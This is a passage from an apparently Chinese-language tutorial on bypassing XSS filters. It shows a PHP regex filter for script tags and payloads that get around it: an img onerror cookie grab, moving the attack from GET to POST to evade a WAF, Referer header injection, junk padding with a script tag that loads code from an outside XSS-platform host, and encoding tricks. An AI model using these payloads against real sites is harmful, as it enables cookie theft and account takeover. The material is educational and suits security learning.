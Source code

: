 ### 标签语法替换

使用代码 `$name = preg_replace( '/<(.\*)s(.\*)c(.\*)r(.\*)i(.\*)p(.\*)t/i', '', $_GET[ 'name' ] )`，`.`代表任意字符，`*`代表匹配前一个字符0或无限次。其中`preg_replace` 函数可以调用正则表达式，进行 script 的逐字检查，并通过 `/i` 来不区分大小写。

但是上述代码只考虑了script标签的XSS，其实 **JS 脚本不仅仅可以在 `<script>` 标签中使用，通过 `<img>` 标签中 `onerror` 行为也可以调用 JS 脚本。**

提交 `<img src=1 onerror=alert(document.cookie)>`，攻击成功。

也可尝试更多其他标签，比如`<a>`、`<svg>`、`<audio>`等。

![image-20220728162118390](https://frankcao3-picgo.oss-cn-shenzhen.aliyuncs.com/img/image-20220728162118390.png)

### 字符长度限制绕过

如果只是在浏览器前端进行的字符长度限制，那么要么禁用或者修改前端的相关JS脚本，要么绕过前端在 Burpsuite 中修改数据包就可以轻松绕过限制。

### 提交方式更改

get不行，换post。

比如安全狗的部分拦截仅针对URL（get）进行检测。

![image-20220731151918996](https://frankcao3-picgo.oss-cn-shenzhen.aliyuncs.com/img/image-20220731151918996.png)

更换为post提交后payload成功执行：

![image-20220731152045595](https://frankcao3-picgo.oss-cn-shenzhen.aliyuncs.com/img/image-20220731152045595.png)

有时也可以选择 HTTP 头部进行注入：

Referer表示本网页的上一个URL，这里的攻击语句首先使用引号闭合语法，然后定义type为text，使得alert(1)能够显示。

![image-20220801092502124](https://frankcao3-picgo.oss-cn-shenzhen.aliyuncs.com/img/image-20220801092502124.png)

攻击成功，网页上出现弹框：

![image-20220801092649962](https://frankcao3-picgo.oss-cn-shenzhen.aliyuncs.com/img/image-20220801092649962.png)



### 垃圾数据溢出

在脚本末尾加上大量无关字符，导致过滤条件失效。注意最后要加上#注释、或者//、或者--+，需要自己试（特殊符号干扰）。

比如`<script src='https://xxs8.cc/xxxx'fhdhbgdioslbdvs#>`

### 编码转换（编码绕过）

对输入到页面的数据进行编码转换，使得攻击语句的某些特殊字符被编码，攻击失效。

绕过时，对攻击语句也主动进行编码即可，网站发现这些字符已经被编码，会自动对某些编码进行解码。。

包括JS编码，HTML实体编码，URL编码。

- JS编码

